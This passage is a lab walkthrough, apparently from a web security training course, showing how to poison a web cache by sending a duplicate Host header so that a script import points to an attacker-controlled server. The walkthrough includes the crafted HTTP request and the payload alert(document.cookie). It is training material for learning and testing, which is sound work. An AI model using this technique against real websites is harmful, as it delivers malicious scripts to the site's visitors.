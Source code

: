 ### Web cache poisoning via ambiguous requests

serve as a cache buster, for example, ```GET /?cb=123```. You can simply change this parameter each time you want a fresh response from the back-end server.
Notice that if you add a second Host header with an arbitrary value, this appears to be ignored when validating and routing your request. Crucially, notice that the arbitrary value of your second Host header is reflected in an absolute URL used to import a script from /resources/js/tracking.js.
Remove the second Host header and send the request again using the same cache buster. Notice that you still receive the same cached response containing your injected value.
Go to the exploit server and create a file at ``` /resources/js/tracking.js``` containing the payload ```alert(document.cookie)```. Store the exploit and copy the domain name for your exploit server.
Back in Burp Repeater, add a second Host header containing your exploit server domain name. The request should look something like this:

```
GET /?cb=123 HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
```
Send the request a couple of times until you get a cache hit with your exploit server URL reflected in the response. To simulate the victim, request the page in the browser using the same cache buster in the URL. Make sure that the alert() fires.
